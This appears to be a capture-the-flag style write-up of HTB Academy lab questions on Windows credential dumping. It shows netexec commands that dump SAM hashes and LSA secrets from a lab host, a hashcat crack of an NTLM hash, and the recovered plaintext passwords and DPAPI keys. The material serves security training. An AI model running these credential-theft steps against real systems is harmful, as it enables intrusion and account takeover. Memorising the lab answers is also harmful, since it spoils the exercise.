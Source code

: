

## Questions

User: Bob
Pass: HTB_@cademy_stdnt!
Target IP: 10.129.202.70

1. Where is the SAM database located in the Windows registry? (Format: ****\***)
	`hklm\sam`

2.  Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.
```shell
We see that the credentials are working for SMB:
> netexec smb 10.129.202.70 -u Bob -p HTB_@cademy_stdnt!

Lets dump hashes:
> netexec smb 10.129.202.70 --local-auth -u Bob -p HTB_@cademy_stdnt! --sam
ITbackdoor:1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321:::

> hashcat -a 0 -m 1000 'c02478537b9727d391bc80011c2e2321' /usr/share/wordlists/rockyou.txt

c02478537b9727d391bc80011c2e2321:matrix
```

3. Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)\\
```shell
> netexec smb 10.129.202.70 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
frontdesk:Password123
```